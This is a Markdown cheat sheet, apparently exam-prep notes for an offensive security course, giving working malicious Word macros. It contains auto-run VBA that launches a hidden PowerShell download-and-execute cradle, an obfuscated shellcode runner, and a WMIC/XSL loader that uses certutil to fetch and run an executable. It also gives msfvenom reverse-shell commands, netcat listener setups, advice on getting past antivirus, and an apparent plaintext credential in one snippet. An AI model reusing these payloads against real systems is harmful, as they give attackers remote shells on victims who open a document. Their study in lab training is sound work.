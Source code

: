 # General info
Open this file with Markdown reader or with CyberChief render https://cyberchef.io/#recipe=Render_Markdown()&input=IyBUaXRsZQoKUmVuZGVyIG9mIGBjb2RlYA

Do not forget to put it into Document and not into Template.  
First, create and save the document as .docm (or .doc, depending on the situation) 
Once .docm file created, go to tab View => Macros => View Macros => "Macros in: XXX (document)" => put foo in Macro name => Create.  

# IMPORTANT : usual mistakes, please always check that before asking me  
1. Don't use Meterpreter directly; always keep simple payload, reverse TCP shell (so `msfvenom -p windows/shell_reverse_tcp`)
2. Don't use exotic ports; stick to 80, 443 and eventually 53/8080 (`nc -lvnp 443`)
3. Put the macro in the DOCUMENT, not in the template (because it will be only on your dev box)
4. Always try the macro first on the dev box (not your computer since you might have Word 64 bits), first with Defender disabled, and once it works, with Defender enabled (the AV version is the same with all boxes)
5. All the following payload are confirmed to work on all active sets (AV is the same and is not updated); if it doesn't work, it's not the payload I provide.

# 1. The simplest :

https://raw.githubusercontent.com/S3cur3Th1sSh1t/OffensiveVBA/main/src/Reverse-Shell.vba

Put your VPN IP, port 80/443/8080, and run `nc -lvnp 8080` listener.


# 2. Basic Powershell command - Powershell

```vb
Sub MyMacro()
    Dim strArg As String
    strArg = "powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.X.Y/rev.ps1')"
    Shell strArg, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen() 
    MyMacro
End Sub
```

# 3. Simple way - BadAssMacro + msfvenom

Important : do not run the macro on your own computer (you probably have Word 64 bits), this exploit is for 32 bits (both RDP dev box and exam machines have 32 bits Word, otherwise you have "type mismatch error")

BadAssMacro (https://github.com/Inf0secRabbit/BadAssMacros/releases/tag/v1.0), binary backup is present in the folder.  
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f raw -o shellcode.raw`  
`.\BadAssMacrosx86.exe -i shellcode.raw -s indirect -p no -w doc -o outvba.txt`

Insert into your document the content of the file outvba.txt

# 4. Obfuscated VBA with recepe - VBA + msfvenom
This comes from PDF after putting pieces together (exercice 6.8.3.1, look for the word "Almond" with Ctrl+F)

Generate payload with `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 -f vbapplication`, then insert into following VBA runner

```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Function Pears(Beets)
 Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
 Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
 Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
 Do
 Oatmilk = Oatmilk + Pears(Strawberries(Milk))
 Milk = Almonds(Milk)
 Loop While Len(Milk) > 0
 Nuts = Oatmilk
End Function

Function MyMacro()
 Dim Apples As String
 Dim Water As String
 Dim buf As Variant
 Dim addr As LongPtr
 Dim counter As Long
 Dim data As Long
 Dim res As Long

 buf = Array(252, ............................. 203)
 
 addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

 For counter = LBound(buf) To UBound(buf)
  data = buf(counter)
  res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

 res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub AutoOpen()
 MyMacro
End Sub

Sub Document_Open()
 MyMacro
End Sub
```

# 5. WMIC + XSL

```vb
Sub AutoOpen()
    Shell "wmic process get brief /format:""http://<Kali_IP_web>/payload.xsl""", vbHide 
End Sub
```

If that doesn't work, use this project: https://gist.github.com/badkatro/8e5b764e7bfc1158e053 (backup below)

Create your EXE payload and encode it using certutil
The payload.xsl file should contain:
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace%22%3E

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var ob = new ActiveXObject("WScript.Shell");
      ob.Run("certutil.exe -urlcache -f http://<Kali_IP_web>/met.enc C:\Users\Public\met.enc", 0, true);
      ob.Run("certutil.exe -decode C:\Users\Public\met.enc C:\Users\Public\met.exe", 0, true);
      ob.Run("C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\met.exe", 0, true);
    ]]>
  </ms:script>
</stylesheet>
```


### Backup of the Badkatro project (in case of deletion), that also works
````Sub DownloadFile()

Dim myURL As String
myURL = "https://github.com/badkatro/AssignDocuments/blob/master/scripts/Main.vba"

'Dim WinHttpReq As Object
Dim WinHttpReq As XMLHTTP
'Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
Set WinHttpReq = New XMLHTTP

WinHttpReq.Open "GET", myURL, False, "badkatro", "Kocutel924"
WinHttpReq.send

Do While WinHttpReq.readyState <> 4
    DoEvents
Loop

myURL = WinHttpReq.responseBody

If WinHttpReq.Status = 200 Then
    
    Dim fso As New Scripting.FileSystemObject
    
    Dim ostream As TextStream
    
    Set ostream = fso.CreateTextFile("D:\Main.bas", True)
    'Set oStream = CreateObject("ADODB.Stream")
    
    'oStream.Open
    ostream.write (WinHttpReq.responseText)
    'ostream.Type = 1
    'ostream.write WinHttpReq.responseText
    'ostream.SaveToFile "D:\Main.bas", 2 ' 1 = no overwrite, 2 = overwrite
    ostream.Close
End If

Set WinHttpReq = Nothing

End Sub```
